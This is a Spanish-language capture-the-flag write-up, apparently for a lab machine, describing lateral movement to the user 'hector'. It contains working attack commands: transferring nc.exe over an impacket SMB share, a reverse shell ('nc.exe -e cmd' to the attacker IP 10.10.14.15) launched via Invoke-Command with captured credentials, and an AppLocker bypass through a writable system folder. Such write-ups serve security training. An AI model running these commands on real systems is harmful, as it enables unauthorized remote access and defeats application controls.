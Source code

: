 Hemos podido lanzar un script enjaolado sobre un Blocke como si fuera el usuario hector que lo ejecutara.
La idea aqui es entablarnos una reverse shell ejecutada como el usuario hector.

1. Enviamos un nc.exe a la maquina victima

    - en la maquina de atacante

        ```bash
        locate nc.exe
        cp /usr/share/sqlninja/apps/nc.exe .
        impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
        ```

    - en la maquina victima

        ```bash
        cd C:\Windows\Temp
        mkdir userPivoting
        cd userPivoting
        net use x: \\10.10.14.15\smbFolder /user:s4vitar s4vitar123
        copy x:\nc.exe nc.exe
        ```

1. Lanzamos la reverse shell como el usuario hector

    - en la maquina de atacante

        ```bash
        rlwrap nc -nlvp 443
        ```

    - en la maquina victima

        ```bash
        Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {C:\Windows\Temp\userPivoting\nc.exe -e cmd 10.10.14.15 443 }
        ```

        tenemos un error, quiere decir que tenemos que passar por un **AppLockerByPass**. Las routas se pueden encontrar en [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md).

        ```bash
        cp nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
        C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 443
        ```

Ya hemos ganado acceso al systema como el usuario hector y podemos ver la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
whoami /priv
```
